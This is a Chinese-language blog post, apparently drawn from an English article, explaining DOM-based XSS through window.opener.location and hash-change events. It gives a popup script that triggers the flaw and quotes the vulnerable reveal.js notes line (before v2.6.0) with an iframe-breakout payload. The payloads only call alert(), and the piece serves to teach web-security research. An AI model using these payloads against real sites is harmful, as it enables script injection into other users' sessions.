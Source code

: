 对于以上的代码，只改变location（[`http://vulnerable/#](http://vulnerable/#)<img src=x onerrer=alert() />` ）是不够的，还需要触发hash值的改变。你可以像这样：

```jsx
var payload = "#<img src=x onerror=alert()/>";
open(vulnerablePage, "popup")
//give the vulnerable page a few seconds to fully load before changing the hash value
setTimeout(function() { open(vulnerablePage + payload, "popup");
    }, 2000);
```

这变得更加有趣，因为甚至很多开发者都会忽略掉这个安全问题。

## Example of unsafe opener usage — Reveal.js

在这个阶段你可能在想：这样的代码真的存在么？我也是这样想的，然后通过谷歌搜索发现旧版的`reveal.js` 有着基于DOM的XSS问题：通过使用`opener.location` 变量在presenter notes functionality (versions prior to v2.6.0).以下是这个易受攻击的代码行：

[https://github.com/hakimel/reveal.js/blob/4164200474e2af27803dc7683054f5443743c8a9/plugin/notes/notes.html#L142](https://github.com/hakimel/reveal.js/blob/4164200474e2af27803dc7683054f5443743c8a9/plugin/notes/notes.html#L142)

```jsx
document.write( '<iframe width="1280" height="1024" id="current-slide" src="'+ window.opener.location.href +'"></iframe>' );
```

对于这段代码，XSS攻击有一些难度：我们需要逃逸src属性下的双引号（“）。

在URL编码中，双引号是 %22,同样的，<和>也是要编码。URL像这样

```jsx
http://xss.vg/"></iframe><script>alert()</script>
```

在HTML中会变成这样：

```jsx
<iframe width="1280" height="1024" id="current-slide" src="http://xss.vg/%22%3e%3c/iframe%3e%3cscript%3ealert()%%3c/script3e"></iframe>
```

这是XSS安全的。然而，同一时间，我发现了这个问题`**hash` 在chrome和edge中是不会被URL编码的。**

所以以下的url

```jsx
http://xss.vg/#"></iframe><script>alert()</script>
```

将会变成

```jsx
<iframe width="1280" height="1024" id="current-slide" src="http://xss.vg/#"></iframe><script>alert()</script>"</iframe>
```

alert()的XSS会被出发。在写作的同一时间，chrome改变了hash不进行编码的问题。但是edge和explorer仍然存在这个问题。

## The story so far

目前为止，我们讨论了弹出窗口和opener变量。我们看到浏览器一些安全控制像同源政策去阻止javascript在两个窗口之间执行。但是

`opener.location` 变量能够被用于XSS向量，而且出发onhashChange事件。第三部分：Join me in part three (coming soon) as we play around with cross-window eval.

然后发现并没有part3，作者鸽了。。。pAq